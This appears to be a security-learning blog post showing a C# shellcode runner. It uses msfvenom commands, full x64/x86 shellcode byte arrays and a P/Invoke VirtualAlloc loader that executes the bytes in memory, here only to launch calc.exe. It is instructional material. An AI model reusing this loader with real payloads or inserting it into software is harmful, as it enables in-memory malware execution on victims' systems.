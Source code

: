 ```yaml
---
title: Executing native windows payloads as unmanaged code. 
date: 2021-07-09 11:45:47 +07:00
categories: greyhatcch4
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Executing native windows payloads as unmanaged code.
---
```




## We write a program to execute native windows payloads as unmanaged code. (using metasploit)

- Msf payloads generated in 32/64bit assembly code is called unmanaged code, where you compile C# code into a dll or exe it is referred to as managed code. The difference betweeen the two is that unmanaged code requires mono/.NET to run whereas managed can be run directly.

- To execute unmanaged assembly code within a managed environment we'll use the .NET's P/Invoke to import and run the VirtualAlloc() function from Kernel32.dll. (lets us allocate memory) 

- We use the DllImport attribute to look for a lib at runtime.

- We generate our unmanaged code(pop calc.exe) using:

	> `msfvenom -p windows/x64/exec -f csharp CMD=calc.exe` -x64

	> `msfvenom -p windows/exec -f csharp CMD=calc.exe` -x86


### CODE:

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;


namespace msf_payload_using_Csharp
{
    public class MainClass
    {
        // Look for kerner32.dll at runtime
        [DllImport("Kernel32")]
        // Importing VirtualAlloc() from kernel32.dll
        static extern IntPtr VirtualAlloc(IntPtr ptr, IntPtr size, IntPtr type, IntPtr mode);
        // Set this attr to call VirtualAlloc using stdCall to run unmanaged functions
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        // Declaring delegate with UnmanagedFunctionPointer attr 
        delegate void WindowsRun();

        public static void Main(string[] arg)
        {
            // Identifies platform property
            OperatingSystem os = Environment.OSVersion;
            // Verifying architecture by check IntPtr size (4 for 32bit, 8 for 64bit)
            bool x86 = (IntPtr.Size == 4);
            byte[] payload;

            if (os.Platform == PlatformID.Win32Windows || os.Platform == PlatformID.Win32NT)
            {
                // shellcode gen for x86-x64 using msf
                if (!x86)
                    payload = new byte[] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };
                // shellcode gen for x86 using msf
                else
                    payload = new byte[] { 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x6a,0x01,0x8d,0x85,0xb2,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00  };

                // Returns ptr to allocated memory
                IntPtr ptr = VirtualAlloc(IntPtr.Zero, (IntPtr)payload.Length, (IntPtr)0x1000, (IntPtr)0x40);
                // Copying payload directly to memory space
                Marshal.Copy(payload, 0, ptr, payload.Length);
                // Ref assembly as an unmanaged func ptr
                WindowsRun r = (WindowsRun)Marshal.GetDelegateForFunctionPointer(ptr, typeof(WindowsRun));
                // Calling delegated func to execute assembly code
                r();
            }
        }
    }
}
```

## OUTPUT:

_Calc.exe Popped!_

